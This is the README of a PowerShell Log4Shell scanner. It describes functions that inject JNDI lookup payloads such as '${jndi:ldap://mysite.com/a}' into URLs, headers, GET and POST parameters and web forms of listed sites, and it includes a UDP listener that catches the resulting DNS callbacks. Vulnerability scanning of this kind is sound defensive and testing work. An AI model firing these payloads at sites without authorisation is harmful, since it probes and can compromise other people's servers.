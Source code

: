 # Invoke-Log4ShellScanner
Powershell module for Log4Shell

### Usage:

>_PS>. .Invoke-Log4ShellScanner.ps1_  
>_PS>Invoke-Log4ShellScanner -Uri [sites file] -CanaryTokenDNS [canary token/ custom IP/DNS] -Headers [headers file] -Forms -Quick_  
>_PS>Invoke-Log4ShellFastScan -Uri [sites_file] -CanaryTokenDNS [canary token/ custom IP/DNS]_  
>_PS>Invoke-Log4ShellCheckForms -Uri [url_address] -Payload_  
>_PS>Invoke-VitnessLogger -Port 53

> * _-Uri_ - file that contains URLs to scan (https://example.com example in example-sites.txt)
> * _-CanaryTokenDNS_ - IP address or domain name of OOB service which provide us the logs
> * _-Headers_ - file that contains headers to test (all-headers.txt)
> * _-Forms_ - switch to enable forms checking [OPTIONAL]
> * _-Quick_ - switch to provide fast scan (only 2 payloads are being tested) [OPTIONAL]  
> * _-Payload_ - payload parameter (eg ${jndi:ldap://mysite.com/a})  
> * _-Port_ - port on which the Vitness will be bound and listening

### Description  
The Invoke-Log4ShellScanner is a powershell script that provides 3 functions:  
1) _Invoke-Log4ShellScanner_  
The most advanced scan can test provided site pool for obfuscated payloads by sending GET,POST and optionally forms. The payload is placed inside the URI, choosen Headers and arguments of POST method and GET URI.  
2) _Invoke-Log4ShellFastScan_  
The simplest scan that uses basic payload and one obfuscated. Payload is placed inside the URI, parameter for GET method and "User-Agent" header.  
4) _Invoke-Log4ShellCheckForms_  
The function which perform checking the site (one URL) for forms and then placing the payload into the forms and send POST.  
5) _Invoke-VitnessLogger_  
Simple UDP listener on provided PORT - by default it just log the Name from the DNS query - ${jndi:dns://hostIP:53/Query}  

The example files: _all-headers.txt, example-sites.txt_

# TODOS:  
[ ] The scanner cant crawl or spidering the site  
[ ] There are issues with some forms  
[ ] Port Scannner and possibilities to scan FTP/SQL and other potential services will be good.  
